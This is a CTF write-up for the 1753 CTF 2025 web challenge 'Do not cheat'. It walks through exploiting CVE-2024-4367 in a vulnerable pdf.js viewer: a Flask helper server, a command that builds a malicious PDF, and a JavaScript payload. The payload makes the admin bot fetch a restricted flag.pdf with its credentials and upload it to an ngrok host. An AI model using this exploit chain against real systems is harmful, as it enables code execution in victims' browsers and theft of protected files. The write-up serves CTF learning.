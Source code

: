 ```yaml
---
title: "Do not cheat - 1753 CTF 2025"
summary: "1753 CTF 2025 - writeup for web challenge Do not cheat"
date: "2025-04-13"
draft: false
tags: ["1753ctf", "web"]
categories: ["writeups"]
showToc: false
---
```


## Do Not Cheat


> I've prepared a set of useful cheatsheets. This might be helpful for any hacker.
> 🔗 https://do-not-cheat-bb7d7982d597.1753ctf.com


In this chall given a website with some cheatsheets, looking the source code from browser it is evident there exist a `flag.pdf` file containing real flag but it's access is not given to normal user, only admin can view the `flag.pdf` file. 

Also the `/report` route exist where we can pass any pdf as query parameter to get it viewed by the admin...

Like this - `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=public/BLUE.pdf`

Hmm, so admin is a bot! (common in CTF challs)

Now if we look console while testing the web app, we can see logs that tells us the pdf-viewer used by the web app is `pdf-dist version 4.1.392` which is severely vulnerable to arbitary code execution (CVE-2024-4367). 

So if we can pass a vulnerable pdf to `/report` route we could solve this challenge. 

Let's get into it -

From the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) we can embed our malicious script to the a pdf.

First we'll create a flask http server for our utility with this code -

```python

from flask import Flask, send_file, request, jsonify
from flask_cors import CORS, cross_origin
import os

app = Flask(__name__)
cors = CORS(app)

UPLOAD_FOLDER = 'uploads'
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

@app.route('/')
@cross_origin()
def poc_pdf():
    return send_file("poc.pdf")

@app.route('/payload')
@cross_origin()
def payload():
    return send_file("payload.js")

@app.route('/upload', methods=['POST'])
@cross_origin()
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No file selected'}), 400
    
    if file:
        filename = os.path.join(UPLOAD_FOLDER, file.filename)
        file.save(filename)
        return jsonify({
            'ok': True,
            'message': 'File uploaded successfully',
            'filename': file.filename
        }), 200

if __name__ == '__main__':
    app.run(debug=True)
```

Here we have three endpoints
- `/` - gives the malicious pdf, we'll create it later
- `/payload` - gives payload.js file which is a malicious script
- `/upload` - basic file upload utility

Firstly, start the web server.

To host this flask server we'll use `ngrok`, which uses port tunelling to make the local server accessible from anywhere on internet.

My server is running on the domain `45a8-122-162-147-205.ngrok-free.app`, yours will be different so run commands accordingly.

Let's create the malicious pdf by following command -

```bash
$ python3 CVE-2024-4367.py "var s=document.createElement('script');s.src='https://45a8-122-162-147-205.ngrok-free.app/payload';document.body.append(s)"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

This will create our malicious `poc.pdf`

To generate the malicious pdf we'll be taking help from the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) as mentioned above

The code injected in pdf quiet simple, it will load the javascript file `payload.js` availabe at `/payload` endpoint of our utility web server and will execute it

Now for `payload.js` we have -

```javascript
(async () => {
    const res = await fetch("/app/admin/flag.pdf", { credentials: 'include' });
    const blob = await res.blob();

    const formData = new FormData();

    formData.append('file', new File([blob], 'flag.pdf', { type: 'application/pdf' }));

    await fetch('https://45a8-122-162-147-205.ngrok-free.app/upload', {
        method: 'POST',
        body: formData
    });
})();
```

Simple function which just fetch the flag.pdf data and upload the pdf to `/upload` endpoint of our utility web server

Now if i'll send our utility web server url to admin using `/report` endpoint on website we'll get our flag uploaded inside the `/uploads` folder, ~ crazyyy ~

just go to `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://45a8-122-162-147-205.ngrok-free.app` and you will get the flag paved on your machine


